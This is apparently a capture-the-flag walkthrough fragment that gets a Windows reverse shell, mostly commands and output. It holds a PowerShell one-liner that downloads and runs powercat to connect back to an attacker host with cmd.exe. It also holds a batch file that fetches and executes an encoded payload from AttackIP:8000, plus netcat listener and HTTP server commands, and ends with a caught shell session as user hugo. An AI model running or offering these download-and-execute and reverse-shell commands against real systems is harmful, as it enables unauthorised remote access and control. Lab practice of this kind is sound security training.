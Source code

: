 <p>https://github.com/besimorhino/powercat/blob/master/powercat.ps1</p>

<img width="519" height="89" alt="image" src="https://github.com/user-attachments/assets/53a27adf-913b-4a0b-9316-ab07c9910dba" />

<img width="929" height="412" alt="image" src="https://github.com/user-attachments/assets/871b52ac-93a9-4b9e-b1d9-b5ff5e2ca33b" />


<p><em>shell.txt</em></p>

```bash
~/AVenger# pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c AttackIP -p AttackPort -e cmd.exe -ge" > /root/AVenger/shell.txt
:~/AVenger# ls
powercat.ps1  rocket.jpg  shell.txt  test.html
```

<br>
<img width="496" height="648" alt="image" src="https://github.com/user-attachments/assets/74ba8992-edc8-40d8-97c3-cd12acebdb2f" />

<p>8:-(</p>

<p><em>test.bat</em></p>

```bash
START /B powershell -c $code=(New-Object System.Net.WebClient).DownloadString('http://AttackIP:8000/rev.txt');iex 'powershell -E $code'
```

<p>listener</p>

```bash
nc -nlvp 8888
```

<p>server</p>

```bash
python3 -m http.server
```


<img width="1055" height="768" alt="image" src="https://github.com/user-attachments/assets/d93423de-2c65-4296-be74-93db782053f0" />

<img width="1281" height="818" alt="image" src="https://github.com/user-attachments/assets/af070c25-c204-4348-a508-5327d72b636e" />



```bash
:~/AVenger# nc -nlvp 4444
...
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
gift\hugo

C:\Windows\system32>cd C:\users
cd C:\users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

06/30/2023  07:52 AM    <DIR>          .
06/30/2023  07:52 AM    <DIR>          ..
07/20/2025  08:43 PM    <DIR>          Administrator
11/25/2023  12:15 AM    <DIR>          hugo
```